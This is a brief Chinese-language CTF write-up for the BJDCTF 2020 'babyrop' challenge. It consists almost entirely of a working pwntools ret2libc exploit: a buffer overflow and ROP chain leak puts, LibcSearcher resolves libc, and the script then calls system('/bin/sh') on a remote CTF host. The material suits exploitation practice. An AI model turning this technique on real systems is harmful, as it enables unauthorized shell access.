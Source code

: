[[BJDCTF 2020]babyrop | NSSCTF](https://www.nssctf.cn/problem/707)
![[Pasted image 20240901182357.png]]
普通的ret2libc，不做赘述
exp:
```python
from pwn import *
  
context(arch = 'amd64', os = 'linux', log_level = 'debug')
elf = ELF('./babyrop')
local = False
if local:
    p = process('./babyrop')
    # pwnlib.gdb.attach(p, 'b *0x40067D')
else:
    p = remote('node4.anna.nssctf.cn', 28972)
ret = 0x4004c9
rdi = 0x400733
vuln = 0x40067D
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

payload = b'A' * (0x20 + 8) + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(vuln)
p.recvuntil(b'story!\n')
p.sendline(payload)

addr = u64(p.recv(6).ljust(8, b'\x00'))
log.success('puts addr: ' + hex(addr))

from LibcSearcher import LibcSearcher
libc = LibcSearcher('puts', addr)
libc_base = addr - libc.dump('puts')
system = libc_base + libc.dump('system')
binsh = libc_base + libc.dump('str_bin_sh')
payload = b'A' * (0x20 + 8) + p64(ret) + p64(rdi) + p64(binsh) + p64(system)
p.recvuntil(b'story!\n')
p.sendline(payload)
p.interactive()
```
PS：本地wsl日常泄露不出来，话说这是为数不多我的LibcSearcher能搜到libc版本的题目。
